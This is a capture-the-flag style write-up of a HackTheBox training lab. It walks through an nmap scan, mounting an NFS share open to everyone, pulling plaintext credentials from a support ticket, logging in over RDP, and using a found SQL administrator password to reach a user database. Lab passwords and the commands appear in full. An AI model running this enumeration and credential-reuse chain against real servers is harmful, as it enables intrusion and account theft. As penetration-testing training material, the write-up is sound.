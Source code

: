 # Footprinting - Medium Lab

**Engagement Information:**

>This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.
>
>Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named *HTB* has been created. Accordingly, we need to obtain the credentials of this user as proof.

---

**Goal:**

- *Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.*

---

**Target Information:**

- Existing user *HTB*


---

**Enumeration:**

- nmap

```bash
$ nmap -sV -sC -oN nmap_init.txt -T4 $htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 08:59 CDT
Nmap scan report for 10.129.157.85
Host is up (0.048s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-16T14:03:13+00:00
```

---

**Initial Access:**

- Found and was able to mount an NFS share on the server:

```bash
$ showmount -e $htb
Export list for 10.129.157.85:
/TechSupport (everyone)

$ mkdir tech

$ sudo mount -t nfs $htb:/ ./tech/ -o nolock
```

- User Credentials found in NFS share:

```bash
$ cat tech/TechSupport/ticket4238791283782.txt

Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,.

So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
```

- Logged in with stolen credentials via RDP:

`$ xfreerdp3 /u:alex /p:'lol123!mD' /v:$htb`

---

**Further Enumeration and Escalation:**

- Microsoft SQL Server is immediately accessible on the desktop,
  - All attempts to log in failed

- Digging through Alex's file I found what would appears to be the administrator password:
  - `sa:87N1ns@slls83`

![important.png](assets/important.png)

- Ran microsoft sql as administrator using found credentials.
  - Found the database containing user accounts and passwords:

![mssql.png](assets/mssql.png)

